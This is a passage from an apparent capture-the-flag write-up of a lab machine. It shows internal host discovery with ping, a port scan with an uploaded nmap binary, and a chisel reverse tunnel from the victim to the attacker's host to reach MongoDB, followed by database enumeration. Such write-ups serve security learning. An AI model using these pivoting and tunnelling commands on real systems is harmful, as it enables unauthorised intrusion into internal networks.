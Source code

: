 All of the Docker containers are hosted on 172.18.0.1/24 it appears. There are also a lot of Docker containers on 172.17.0.0/24 that are hosting the port 80 instance. I noticed that they skipped 172.17.0.2, and I wanted to see if it existed via `ping`.

```
saul@talkative:~$ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.106 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.106/0.106/0.106/0.000 ms
```

So this machine exists. We can download the `nmap` binary onto the machine and scan this host.&#x20;

```
saul@talkative:~$ ./nmap_binary -p- --min-rate 10000 172.17.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-05-01 12:48 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE
27017/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 12.98 seconds
```

Port 27017 for MongoDB is open, and we can forward this using `chisel`.&#x20;

```bash
# on kali
chisel server -p 5555 --reverse
# on victim
./chisel client 10.10.14.13:5555 R:27017:172.17.0.2:27017
```

Then, we can enumerate port 27017 for ourselves. Since it is running on our localhost, we can use `mongo` to interact with it.&#x20;

### Mongo Enum

We can first view the databases present:

```
rs0:PRIMARY> show dbs
admin   0.000GB
config  0.000GB
local   0.011GB
meteor  0.004GB
```
